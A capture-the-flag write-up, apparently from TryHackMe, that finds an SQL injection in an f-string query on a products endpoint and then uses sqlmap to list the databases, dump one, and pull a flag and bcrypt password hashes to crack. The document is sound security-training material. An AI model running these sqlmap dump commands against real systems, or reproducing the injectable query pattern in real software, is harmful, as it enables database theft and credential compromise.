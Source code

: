
The vulnerable section is:

```python
rs = con.execute(f"SELECT * FROM product WHERE id={product_id}")
```

This line directly interpolates `product_id` into an SQL query **without sanitization or parameterization**, making it susceptible to SQL injection via the `/products/<product_id>` endpoint.

Knowing this, we can proceed to exploitation.



# EXPLOITATION
---


Since we know SQLI is on the `products` section, we can use sqlmap to automate the exploitation process:

```
sqlmap -u "http://IP/products/1" --dbs --batch --level=5 --risk=3
```


We find the following databases:

```python
available databases [5]:
[*] duckyinc
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```


Let's read the duckyinc one:

```
sqlmap -u "http://10.10.38.213/products/1" -D duckyinc --dump --batch
```

![[Pasted image 20250609134256.png]]

We got our first flag: 

```
thm{br3ak1ng_4nd_3nt3r1ng}
```


![[Pasted image 20250609134438.png]]

We got some hashes, we can try getting them and cracking them with hashcat:

```
$2a$08$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a
$2a$12$LEENY/LWOfyxyCBUlfX8Mu8viV9mGUse97L8x.4L66e9xwzzHfsQa
$2a$12$22xS/uDxuIsPqrRcxtVmi.GR2/xh0xITGdHuubRF4Iilg5ENAFlcK
```
